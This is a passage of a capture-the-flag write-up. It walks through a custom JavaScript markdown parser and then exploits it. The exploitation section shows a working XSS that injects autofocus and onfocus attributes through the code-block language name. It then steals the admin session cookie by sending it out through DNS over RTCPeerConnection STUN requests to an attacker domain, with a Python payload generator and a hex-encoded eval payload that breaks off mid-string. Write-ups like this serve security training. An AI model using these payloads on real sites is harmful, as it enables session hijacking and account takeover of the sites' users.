        markdown = markdown.slice(0, start) + '&lt;' + markdown.slice(start + 1);
    }
}
```

The function begins by sanitizing input to escape HTML tags by replacing `<` and > with `&lt;` and `&gt;`. For example, if the input contains `<script>`, it ensures the output is `&lt;script&gt`; to prevent potential script execution vulnerabilities.

```js
function wrapLinks(input) {
	var urlRegex = /(?<![\(\[])(https?:\/\/[^\s"']+)/gi;
	return input.replace(urlRegex, function (url) {
		return `<a class='link' href="${url}">${url}</a>`;
	});
}

function wrapEmails(input) {
	var emailRegex = /([a-zA-Z0-9._+-]+@[a-zA-Z0-9._-]+\.[a-zA-Z0-9._-]+)/gi;
	return input.replace(emailRegex, function (url) {
		return `<a class='link' href="mailto:${url}">${url}</a>`;
	});
}
```

Next, it processes emails and URLs using helper functions `wrapEmails` and `wrapLinks`, which replace detected patterns with clickable HTML links. For example, the email `test@example.com becomes` `<a href="mailto:test@example.com">test@example.com</a>`, and a URL like `http://example.com` becomes `<a href="http://example.com">http://example.com</a>`.

```js
//HANDLE SPACES
if (line.includes('$~')) {
    let insideDollar = false;
    let result = '';

    for (let i = 0; i < line.length; i++) {
        const char = line.charAt(i);

        if (char === '$') {
            insideDollar = !insideDollar;

        } else if (insideDollar && char === '~') {
            result += '&nbsp;';

        } else {
            result += char;
        }
    }

    line = result;
}
```

This code processes a string (`line`) to handle sequences marked by `$~`, replacing `~` with `&nbsp;` (a non-breaking space) while toggling a flag (`insideDollar`) to track whether the current position is inside `$` markers. If the character `$` is encountered, the flag toggles on or off, signaling the start or end of a special processing mode. Characters outside this mode are appended to the result unchanged, effectively preserving the original text except for replacing `~` with `&nbsp;` within `$` sections.

```js
//HANDLE UNDERLINES FOR H1 & H2
if (i < lines.length) {
    let nextLine = lines[i + 1];

    if (typeof nextLine != 'undefined') {
        nextLine = lines[i + 1].trim();

        if (/^=+$/.test(nextLine)) {
            const isUsed = processedLines.length > 0;
            if (isUsed) {
                processedLines.push('</p>');
            }
            const slug = line.replace(/[^a-zA-Z0-9]/g, '-').toLowerCase();
            processedLines.push(`<h1 id='${slug}'><a href='#${slug}'><svg viewBox='0 0 24 24'><path d='M20 10V8h-4V4h-2v4h-4V4H8v4H4v2h4v4H4v2h4v4h2v-4h4v4h2v-4h4v-2h-4v-4h4zm-6 4h-4v-4h4v4z' /></svg>${line}</a></h1>`);
            i += 2;

            if (lines.length > i) {
                processedLines.push('<p>');
            }
            continue;

        } else if (/^-+$/.test(nextLine)) {
            const isUsed = processedLines.length > 0;
            if (isUsed) {
                processedLines.push('</p>');
            }
            const slug = line.replace(/[^a-zA-Z0-9]/g, '-').toLowerCase();
            processedLines.push(`<h2 id='${slug}'><a href='#${slug}'><svg viewBox='0 0 24 24'><path d='M20 10V8h-4V4h-2v4h-4V4H8v4H4v2h4v4H4v2h4v4h2v-4h4v4h2v-4h4v-2h-4v-4h4zm-6 4h-4v-4h4v4z' /></svg>${line}</a></h2>`);
            i += 2;

            if (lines.length > i) {
                processedLines.push('<p>');
            }
            continue;
        }
    }
}

//HANDLE HEADERS
if (line.startsWith('### ')) {
    const isUsed = processedLines.length > 0;
    if (isUsed) {
        processedLines.push('</p>');
    }
    const slug = line.slice(4).replace(/[^a-zA-Z0-9]/g, '-').toLowerCase();
    processedLines.push(`<h3 id='${slug}'><a href='#${slug}'><svg viewBox='0 0 24 24'><path d='M20 10V8h-4V4h-2v4h-4V4H8v4H4v2h4v4H4v2h4v4h2v-4h4v4h2v-4h4v-2h-4v-4h4zm-6 4h-4v-4h4v4z' /></svg>${line.slice(4)}</a></h3>`);
    i++;

    if (lines.length > i) {
        processedLines.push('<p>');
    }
    continue;

} else if (line.startsWith('## ')) {
    const isUsed = processedLines.length > 0;
    if (isUsed) {
        processedLines.push('</p>');
    }
    const slug = line.slice(3).replace(/[^a-zA-Z0-9]/g, '-').toLowerCase();
    processedLines.push(`<h2 id='${slug}'><a href='#${slug}'><svg viewBox='0 0 24 24'><path d='M20 10V8h-4V4h-2v4h-4V4H8v4H4v2h4v4H4v2h4v4h2v-4h4v4h2v-4h4v-2h-4v-4h4zm-6 4h-4v-4h4v4z' /></svg>${line.slice(3)}</a></h2>`);
    i++;

    if (lines.length > i) {
        processedLines.push('<p>');
    }
    continue;

} else if (line.startsWith('# ')) {
    const isUsed = processedLines.length > 0;
    if (isUsed) {
        processedLines.push('</p>');
    }
    const slug = line.slice(2).replace(/[^a-zA-Z0-9]/g, '-').toLowerCase();
    processedLines.push(`<h1 id='${slug}'><a href='#${slug}'><svg viewBox='0 0 24 24'><path d='M20 10V8h-4V4h-2v4h-4V4H8v4H4v2h4v4H4v2h4v4h2v-4h4v4h2v-4h4v-2h-4v-4h4zm-6 4h-4v-4h4v4z' /></svg>${line.slice(2)}</a></h1>`);
    i++;

    if (lines.length > i) {
        processedLines.push('<p>');
    }
    continue;
}
```

The input is split into paragraphs (`\n\n`), and each paragraph is further processed line by line. It detects features such as headers (e.g., lines starting with `#`) and converts them to HTML tags. For instance, `# Header` turns into `<h1 id="header">Header</h1>`. Similarly, underline-based headers are supported, such as `Header\n===` for `<h1>`.

```js
//HANDLE BULLET LISTS
if (/^[-+*] /.test(line)) {
    let listItems = [];
    while (i < lines.length && /^[-+*] /.test(lines[i])) {
        listItems.push(`<li>${lines[i].slice(2)}</li>`);
        i++;
    }
    processedLines.push(`<ul>${listItems.join('')}</ul>`);
    continue;
}

//HANDLE NUMBERED
if (/^\d+\.\s/.test(line)) {
    let listItems = [];
    while (i < lines.length && /^\d+\.\s/.test(lines[i])) {
        listItems.push(`<li>${lines[i].slice(lines[i].indexOf(' ') + 1)}</li>`);
        i++;
    }
    processedLines.push(`<ol>${listItems.join('')}</ol>`);
    continue;
}
```

It detects lists (both unordered like `* Item` and ordered like `1. Item`) and wraps them in `<ul>` or `<ol>`. For example, `* Item 1\n* Item 2` becomes `<ul><li>Item 1</li><li>Item 2</li></ul>`.

```js
//HANDLE BLOCKQUOTES
if (line.startsWith('> ')) {
    processedLines.push(`<blockquote>${line.slice(2)}</blockquote>`);
    i++;
    continue;
}
```

Blockquotes starting with `>` are transformed into `<blockquote>`. For example, `> Quote` results in `<blockquote>Quote</blockquote>`.

```js
//HANDLE TABLE
if (lines.some((line) => line.startsWith('|'))) {
    let tableHtml = '<table>';
    let isHeaderRow = true;
    let bodyHtml = '';

    lines.forEach((tableLine, index) => {
        if (tableLine.startsWith('|')) {
            const cells = tableLine.split('|').map(cell => cell.trim());
            const filteredCells = cells.filter(cell => cell !== '');

            if (index > 0 && filteredCells.every(cell => /^-+$/.test(cell))) {
                return;
            }

            if (isHeaderRow) {
                tableHtml += '<thead><tr>';
                filteredCells.forEach(cell => {
                    tableHtml += '<th>' + markDownText(cell) + '</th>';
                });
                tableHtml += '</tr></thead>';
                isHeaderRow = false;

            } else {
                bodyHtml += '<tr>';
                filteredCells.forEach(cell => {
                    bodyHtml += '<td>' + markDownText(cell) + '</td>';
                });
                bodyHtml += '</tr>';
            }
        }
    });

    if (bodyHtml) {
        tableHtml += `<tbody>${bodyHtml}</tbody>`;
    }

    tableHtml += '</table>';
    return tableHtml;
}
```

Tables are detected using rows that start with `|`, converting them into `<table>` with `<thead>` and `<tbody>`. For example, `| Header | Value |\n|-|-|\n| Test | 123 |` becomes a complete HTML table with rows and cells.

```js
//HANDLE IMAGES
while (line.includes(') {
    const startText = line.indexOf(';
    const startUrl = line.indexOf('(', endText);
    const endUrl = line.indexOf(')', startUrl);

    if (startText !== -1 && endText !== -1 && startUrl !== -1 && endUrl !== -1) {
        const url = line.substring(startUrl + 1, endUrl);
        const pattern = new RegExp(
            '^(' +
            '([a-zA-Z]+:\\/\\/)?' + // protocol
            '((([a-z\\d]([a-z\\d-]*[a-z\\d])*)\\.)+[a-z]{2,}|' + // domain name
            '((\\d{1,3}\\.){3}\\d{1,3}))' + // OR IP (v4) address
            '(\\:\\d+)?(\\/[-a-z\\d%_.~+]*)*' + // port and path
            '(\\?[;&a-z\\d%_.~+=-]*)?' + // query string
            '(\\#[-a-z\\d_]*)?' + // fragment locator
            '|' +
            '(\\/[-a-z\\d%_.~+]+(\\/[-a-z\\d%_.~+]+)*\\/?)' + // relative path with optional trailing slash
            '|' +
            '(\\#[-a-z\\d_]*)' + // fragment link
            ')$',
            'i');

        if (!pattern.test(url)) {
            break;
        }

        const linkHtml = ``;

        line = line.slice(0, startText) + linkHtml + line.slice(endUrl + 1);

    } else {
        break;
    }
}

//HANDLE LINKS
while (line.includes('[') && line.includes('](')) {
    const startText = line.indexOf('[');
    const endText = line.indexOf('](', startText);
    const startUrl = line.indexOf('(', endText);
    const endUrl = line.indexOf(')', startUrl);

    if (startText !== -1 && endText !== -1 && startUrl !== -1 && endUrl !== -1) {
        const linkText = line.substring(startText + 1, endText);
        const url = line.substring(startUrl + 1, endUrl);
        const pattern = new RegExp(
            '^(' +
            '([a-zA-Z]+:\\/\\/)?' + // protocol
            '((([a-z\\d]([a-z\\d-]*[a-z\\d])*)\\.)+[a-z]{2,}|' + // domain name
            '((\\d{1,3}\\.){3}\\d{1,3}))' + // OR IP (v4) address
            '(\\:\\d+)?(\\/[-a-z\\d%_.~+]*)*' + // port and path
            '(\\?[;&a-z\\d%_.~+=-]*)?' + // query string
            '(\\#[-a-z\\d_]*)?' + // fragment locator
            '|' +
            '(\\/[-a-z\\d%_.~+]*)*' + // path
            '(\\?[;&a-z\\d%_.~+=-]*)?' + // query string
            '(\\#[-a-z\\d_]*)?' + // fragment locator
            '|' +
            '(\\#[-a-z\\d_]*)' + // fragment link
            ')$',
            'i');

        if (!pattern.test(url)) {
            break;
        }

        const linkHtml = `<a class='link' href="${url}">${linkText}</a>`;

        line = line.slice(0, startText) + linkHtml + line.slice(endUrl + 1);

    } else {
        break;
    }
}

//HANDLE BOLD
if (line.includes('**')) {
    while (line.includes('**')) {
        const start = line.indexOf('**');
        const end = line.indexOf('**', start + 2);

        if (end === -1) {
            break;
        }

        const boldText = line.substring(start + 2, end);
        line = line.slice(0, start) + `<strong>${boldText}</strong>` + line.slice(end + 2);
    }
}

//HANDLE ITALIC
if (line.includes('*')) {
    while (line.includes('*')) {
        const start = line.indexOf('*');
        const end = line.indexOf('*', start + 1);

        if (end === -1) {
            break;
        }

        const italicText = line.substring(start + 1, end);
        line = line.slice(0, start) + `<em>${italicText}</em>` + line.slice(end + 1);
    }
}
```

Markdown features like inline code, bold (`**`), italics (`*`), links (`[text](url)`), and images (``) are handled within the `markDownText` function. For example, `**bold text**` becomes `<strong>bold text</strong>`, and `[Link](http://example.com)` becomes `<a href="http://example.com">Link</a>`.

```js
if (line.startsWith('```')) {
    inCodeBlock = !inCodeBlock;

    if (inCodeBlock) {
        if (processedLines.length > 0) {
            processedLines[processedLines.length - 1] += '</p>';
        }

        codeLanguage = (line.slice(3) == '') ? 'plain' : line.slice(3).toLowerCase();
        const previousLine = lines[i + 1];

        const uuid = uniqid();
        codeLines.push(`<code-header>${getLanguageKey(codeLanguage)}<button class='copy' type='button' onclick="navigator.clipboard.writeText(document.getElementById('${uuid}').textContent)"><svg viewBox='0 0 24 24'><path d='M16 1H4c-1.1 0-2 .9-2 2v14h2V3h12V1zm3 4H8c-1.1 0-2 .9-2 2v14c0 1.1.9 2 2 2h11c1.1 0 2-.9 2-2V7c0-1.1-.9-2-2-2zm0 16H8V7h11v14z' /></svg></button></code-header>`);
        codeLines.push(`<pre language='${codeLanguage}'><code id='${uuid}'>${tokenizeLine(codeLanguage, previousLine)}</code>`);
        i += 2;
        continue;
    }

    codeLanguage = '';
    codeLines[codeLines.length - 1] += '</pre>';
    processedLines.push.apply(processedLines, codeLines);
    codeLines = [];

    if (line.length > 3) {
        processedLines.push('<p>');
        lines[i] = line.slice(3);
        continue;
    }

    if (i < lines.length - 1) {
        processedLines.push('<p>');
    }

    i++;
    continue;
}
```

Code blocks are processed with backticks (\`\`\`), wrapping the content in `<pre><code>`. For example, a block with \`\`\`code\`\`\` becomes `<pre><code>console.log("Hello");</code></pre>`, and also proper highlighting is added and a copy to clipboard button.

# [Exploitation](#exploitation)

## Breaking the Markdown parser to get XSS

Markdown parsers have been notorious for causing XSS due to faults in the parsing so examining that might be a good idea since there is not much else we can do to elevate the privileges of a normal user we can create to admin.

On a seperate js file we will copy the `markdown2html.js` file to test the `markdownToHtml` function with local payloads.

```html
<!DOCTYPE html>
<html lang="en">

<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<title>XSS testing</title>
</head>

<body>
	<div id="text"></div>
    <script src="markdown2html.js"></script>
	<script>
		const text = `## title`;
		document.getElementById("text").innerHTML = markdownToHtml(text);
	</script>
</body>

</html>
```


Now let's try some XSS payloads.


```

```



As we can see plain XSS payloads get sanitized and do not work.



We could also try to fuzz for markdown speciffic XSS payloads, here i tried the ones from [https://github.com/cujanovic/Markdown-XSS-Payloads](https://github.com/cujanovic/Markdown-XSS-Payloads), but as we can see again they all seem to get sanitized fufficiently.

```js
if (markdown.includes('<')) {
    let cursor = 0;

    while (markdown.includes('<', cursor)) {
        const start = markdown.indexOf('<', cursor);
        markdown = markdown.slice(0, start) + '&lt;' + markdown.slice(start + 1);
    }
}
```

At the very start of the `markdownToHtml` function we see that the code replaces `<` with `&lt;` and `>` with `&gt;`, ensuring that any potential HTML tags in the input are rendered as plain text instead of being interpreted as HTML.

```js
while (line.includes(') {
    const startText = line.indexOf(';
    const startUrl = line.indexOf('(', endText);
    const endUrl = line.indexOf(')', startUrl);

    if (startText !== -1 && endText !== -1 && startUrl !== -1 && endUrl !== -1) {
        const url = line.substring(startUrl + 1, endUrl);
        const pattern = new RegExp(
            '^(' +
            '([a-zA-Z]+:\\/\\/)?' + // protocol
            '((([a-z\\d]([a-z\\d-]*[a-z\\d])*)\\.)+[a-z]{2,}|' + // domain name
            '((\\d{1,3}\\.){3}\\d{1,3}))' + // OR IP (v4) address
            '(\\:\\d+)?(\\/[-a-z\\d%_.~+]*)*' + // port and path
            '(\\?[;&a-z\\d%_.~+=-]*)?' + // query string
            '(\\#[-a-z\\d_]*)?' + // fragment locator
            '|' +
            '(\\/[-a-z\\d%_.~+]+(\\/[-a-z\\d%_.~+]+)*\\/?)' + // relative path with optional trailing slash
            '|' +
            '(\\#[-a-z\\d_]*)' + // fragment link
            ')$',
            'i');

        if (!pattern.test(url)) {
            break;
        }

        const linkHtml = ``;

        line = line.slice(0, startText) + linkHtml + line.slice(endUrl + 1);

    } else {
        break;
    }
}
```

In the `markDownText` function, validation is made ensuring a complete `[text](url)` or `` structure. Also URLs containing quotes (`"`), are not processed to avoid the injection of malicious attributes.

```js
if (line.startsWith('```')) {
    inCodeBlock = !inCodeBlock;

    if (inCodeBlock) {
        if (processedLines.length > 0) {
            processedLines[processedLines.length - 1] += '</p>';
        }

        codeLanguage = (line.slice(3) == '') ? 'plain' : line.slice(3).toLowerCase();
        const previousLine = lines[i + 1];

        const uuid = uniqid();
        codeLines.push(`<code-header>${getLanguageKey(codeLanguage)}<button class='copy' type='button' onclick="navigator.clipboard.writeText(document.getElementById('${uuid}').textContent)"><svg viewBox='0 0 24 24'><path d='M16 1H4c-1.1 0-2 .9-2 2v14h2V3h12V1zm3 4H8c-1.1 0-2 .9-2 2v14c0 1.1.9 2 2 2h11c1.1 0 2-.9 2-2V7c0-1.1-.9-2-2-2zm0 16H8V7h11v14z' /></svg></button></code-header>`);
        codeLines.push(`<pre language='${codeLanguage}'><code id='${uuid}'>${tokenizeLine(codeLanguage, previousLine)}</code>`);
        i += 2;
        continue;
    }

    codeLanguage = '';
    codeLines[codeLines.length - 1] += '</pre>';
    processedLines.push.apply(processedLines, codeLines);
    codeLines = [];

    ...

```

When handling backticks and fenced code blocks, the code blocks are enclosed in `<pre><code>` tags, ensuring their content is treated as literal text and not executed.

So it seems like all the nooks and crannies that could lead to injection are covered, however let's have a closer look at how the system for choosing which language highlight to use works.

```js
codeLanguage = (line.slice(3) == '') ? 'plain' : line.slice(3).toLowerCase();
const previousLine = lines[i + 1];

const uuid = uniqid();
codeLines.push(`<code-header>${getLanguageKey(codeLanguage)}<button class='copy' type='button' onclick="navigator.clipboard.writeText(document.getElementById('${uuid}').textContent)"><svg viewBox='0 0 24 24'><path d='M16 1H4c-1.1 0-2 .9-2 2v14h2V3h12V1zm3 4H8c-1.1 0-2 .9-2 2v14c0 1.1.9 2 2 2h11c1.1 0 2-.9 2-2V7c0-1.1-.9-2-2-2zm0 16H8V7h11v14z' /></svg></button></code-header>`);
codeLines.push(`<pre language='${codeLanguage}'><code id='${uuid}'>${tokenizeLine(codeLanguage, previousLine)}</code>`);
```

Code language is the string that occurs after removing the first three characters of the code block line, so (extra space at the end so the writeup markdown works):

```
```html
<p>test</p>
`` `
```

So in this case it would be `html`.

We can see that it gets inserted into the `pre` element without any direct sanitization, however any user input there would be subject to the global sanitizations so we cannot inject `<`, `>` or `"` as they would get HTML encoded.

But we can inject new properties to the `pre` tag by using `'` since that is not escaped.

```
```json' id='arbitrary-id
{"a":1}
`` `
```



So since it is possible to do this there should be a way to trigger an XSS even through the `pre` tag using arbitrary attributes. This is possible by adding the attributes `autofocus` and `tabindex=1` this will make the element automatically focused by the browser, after this we can add our javascript call with a `onfocus` attribute.

```
```json' autofocus tabindex=1 onfocus=alert()
{"a":1}
`` `
```

Something like this is enough to trigger an XSS.



So our payload has to be a valid markdown code block with the injection inside the lamguage definition.

## Exfiltrating the session cookie using DNS and hex encodings

So now that we have got a valid XSS we need to construct a stable payload that will allow us to exfiltrate the admin cookie that is used in the admin bot, normally we would be able to do something like `window.location='http://attacker.com/?c='+document.cookie`, however there is a proble with that.

```Dockerfile
# Add application
WORKDIR /app
COPY challenge .

# Install dependencies
RUN pip install --no-cache-dir -r requirements.txt

# Setup supervisord
COPY conf/supervisord.conf /etc/supervisord.conf

# Setup readflag program
COPY conf/readflag.c /
RUN gcc -o /readflag /readflag.c && chmod 4755 /readflag && rm /readflag.c

# Expose port
EXPOSE 1337

# Prevent outbound traffic
ENV http_proxy="http://127.0.0.1:9999"
ENV https_proxy="http://127.0.0.1:9999"
ENV HTTP_PROXY="http://127.0.0.1:9999"
ENV HTTPS_PROXY="http://127.0.0.1:9999"
ENV no_proxy="127.0.0.1,localhost"

# Create entrypoint and start supervisord
COPY --chown=root entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```

Going back to the `Dockefile` we see the env variables for HTTP proxying are set. This means that any HTTP request made by the admin bot will use `http://127.0.0.1:9999` as a proxy, but since that port has nothing running on it the request will simply fail, so it is impossible to use HTTP for exfiltration on the remote instance.

```js
function convertToHex(str) {
    var hex = "";
    for (var i = 0; i < str.length; i++) {
        hex += str.charCodeAt(i).toString(16);
    }
    return hex;
}

function leakCookieViaRTC(domain, cookie) {
    var sectionLength = Math.ceil(cookie.length / 2);
    for (var i = 0; i < 2; i++) {
        var section = cookie.slice(i * sectionLength, (i + 1) * sectionLength);
        if (section) {
            var hexSection = convertToHex(section);
            var p = new RTCPeerConnection({
                iceServers: [{
                    urls: `stun:${hexSection}.${domain}`
                }]
            });

            p.createDataChannel("d");
            p.setLocalDescription();
        }
    }
}

leakCookieViaRTC("attacker-dns.com", document.cookie);
```

This is a javascript payload we can use to encode the cookie to hex (valid DNS address characters), split it in two parts (because the session cookie encoded is too big for a domain name) and then make a DNS request that contains our cookie to an attacker defined domain. This is done using the now native javascript class `RTCPeerConnection` that is normally used for RTC communication, but it can be abused as a sidechannel to leak data via DNS.

However we need to encode this payload in order to add it to our parser XSS, normally we could convert it to base64 and then decode it with `atob` and execute it with `eval`, but the issue with this is that all of our input is converted to lowercase, so any uppercase character that is part of the encoded string would get corrupted.

What we can do, in this case, is convert the payload to an embedded javascript hex string

```py
def to_ascii_codes(string):
    return "".join(str(hex(ord(c))) for c in string).replace("0x", "\\x").replace("\\xa","\\x0a")

def xss():
    leak_cookie = f"""
    function convertToHex(str) {{
        var hex = "";
        for (var i = 0; i < str.length; i++) {{
            hex += str.charCodeAt(i).toString(16);
        }}
        return hex;
    }}

    function leakCookieViaRTC(domain, cookie) {{
        var sectionLength = Math.ceil(cookie.length / 2);
        for (var i = 0; i < 2; i++) {{
            var section = cookie.slice(i * sectionLength, (i + 1) * sectionLength);
            if (section) {{
                var hexSection = convertToHex(section);
                var p = new RTCPeerConnection({{
                    iceServers: [{{
                        urls: `stun:${{hexSection}}.${{domain}}`
                    }}]
                }});

                p.createDataChannel("d");
                p.setLocalDescription();
            }}
        }}
    }}

    leakCookieViaRTC("{EXFIL_HOST}", document.cookie);
    """
    encoded = to_ascii_codes(leak_cookie)
    parser_xss = f"```json' autofocus tabindex=1 onfocus=eval('{encoded}');//\na\n```"
    return parser_xss

print(xss())
```

This python script creates the payload we need, so after creating a post with the malicious markdown we simply wait for the bot to visit the blog, and then we receive the session cookie in two DNS requests, which we then decode from hex, and we have the admin cookie. We also add `//` at the end so the format doesn't break by the parser.

```
```json' autofocus tabindex=1 onfocus=eval('\x0a\x20\x20\x20\x20\x66\x75\x6e\x63\x74\x69\x6f\x6e\x20\x63\x6f\x6e\x76\x65\x72\x74\x54\x6f\x48\x65\x78\x28\x73\x74\x72\x29\x20\x7b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x76\x61\x72\x20\x68\x65\x78\x20\x3d\x20\x22\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x66\x6f\x72\x20\x28\x76\x61\x72\x20\x69\x20\x3d\x20\x30\x3b\x20\x69\x20\x3c\x20\x73\x74\x72\x2e\x6c\x65\x6e\x67\x74\x68\x3b\x20\x69\x2b\x2b\x29\x20\x7b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x68\x65\x78\x20\x2b\x3d\x20\x73\x74\x72\x2e\x63\x68\x61\x72\x43\x6f\x64\x65\x41\x74\x28\x69\x29\x2e\x74\x6f\x53\x74\x72\x69\x6e\x67\x28\x31\x36\x29\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x7d\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x72\x65\x74\x75\x72\x6e\x20\x68\x65\x78\x3b\x0a\x20\x20\x20\x20\x7d\x0a\x0a\x20\x20\x20\x20\x66\x75\x6e\x63\x74\x69\x6f\x6e\x20\x6c\x65\x61\x6b\x43\x6f\x6f\x6b\x69\x65\x56\x69\x61\x52\x54\x43\x28\x64\x6f\x6d\x61\x69\x6e\x2c\x20\x63\x6f\x6f\x6b\x69\x65\x29\x20\x7b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x76\x61\x72\x20\x73\x65\x63\x74\x69\x6f\x6e\x4c\x65\x6e\x67\x74\x68\x20\x3d\x20\x4d\x61\x74\x68\x2e\x63\x65\x69\x6c\x28\x63\x6f\x6f\x6b\x69\x65\x2e\x6c\x65\x6e\x67\x74\x68\x20\x2f\x20\x32\x29\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x66\x6f\x72\x20\x28\x76\x61\x72\x20\x69\x20\x3d\x20\x30\x3b\x20\x69\x20\x3c\x20\x32\x3b\x20\x69\x2b\x2b\x29\x20\x7b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x76\x61\x72\x20\x73\x65\x63\x74\x69\x6f\x6e\x20\x3d\x20\x63\x6f\x6f\x6b\x69\x65\x2e\x73\x6c\x69\x63\x65\x28\x69\x20\x2a\x20\x73\x65\x63\x74\x69\x6f\x6e\x4c\x65\x6e\x67\x74\x68\x2c\x20\x28\x69\x20\x2b\x20\x31\x29\x20\x2a\x20\x73\x65\x63\x74\x69\x6f\x6e\x4c\x65\x6e\x67\x74\x68\x29\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x69\x66\x20\x28\x73\x65\x63\x74\x69\x6f\x6e\x29\x20\x7b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x76\x61\x72\x20\x68\x65\x78\x53\x65\x63\x74\x69\x6f\x6e\x20\x3d\x20\x63\x6f\x6e\x76\x65\x72\x74\x54\x6f\x48\x65\x78\x28\x73\x65\x63\x74\x69\x6f\x6e\x29\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x76\x61\x72\x20\x70\x20\x3d\x20\x6e\x65\x77\x20\x52\x54\x43\x50\x65\x65\x72\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x28\x7b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x69\x63\x65\x53\x65\x72\x76\x65\x72\x73\x3a\x20\x5b\x7b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x75\x72\x6c\x73\x3a\x20\x60\x73\x74\x75\x6e\x3a\x24\x7b\x68\x65\x78\x53\x65\x63\x74\x69\x6f\x6e\x7d\x2e\x24\x7b\x64\x6f\x6d\x61\x69\x6e\x7d\x60\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x7d\x5d\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x7d\x29\x3b\x0a\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x70\x2e\x63\x72\x65\x61\x74\x65\x44\x61\x74\x61\x43\x68\x61\x6e\x6e\x65\x6c\x28\x22\x64\x22\x29\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x70\x2e\x73\x65\x74\x4c\x6f\x63\x61\x6c\x44\x65\x73\x63\x72\x69\